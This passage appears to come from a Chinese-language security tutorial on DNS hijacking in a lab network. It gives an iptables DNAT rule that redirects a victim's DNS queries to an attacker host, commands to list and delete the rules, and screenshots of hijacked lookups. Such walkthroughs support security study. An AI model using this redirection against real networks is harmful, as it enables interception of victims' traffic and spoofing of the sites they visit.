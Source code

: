 此时我们利用iptables对受害者的流量进行重定向，将其访问192.168.243.2:53端口的流量重定向至攻击者192.168.243.129:53

```plain
iptables -t nat -A PREROUTING -p udp --dport 53 -d 192.168.243.2 -j DNAT --to-destination 192.168.243.129:53

检查nat表、过滤表规则是否还存在:
iptables -t nat -L
iptables -L
# 删除命令
iptables -t nat -D PREROUTING -p udp --dport 53 -j REDIRECT --to-port 5353
iptables -t nat -D PREROUTING -p udp --dport 53 -d 8.8.8.8 -j DNAT --to-destination 127.0.0.1:53
```

受害人访问百度，可以发现攻击者截获了受害人的dns请求

[![](assets/1701606977-3ee63c7b11dc90020b674042a5122fd8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923200143-f676d06a-5a08-1.png)

将指定域名劫持至攻击者服务器

[![](assets/1701606977-7fcfd3f6f92f6c1f210e5bb78dd60f52.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923200153-fc6e480e-5a08-1.png)

当然，如果受害人使用了https，伪造https站点会导致证书错误

[![](assets/1701606977-3611313c8cc98427650f1a0f07129dc8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923200159-ffaf8bd6-5a08-1.png)
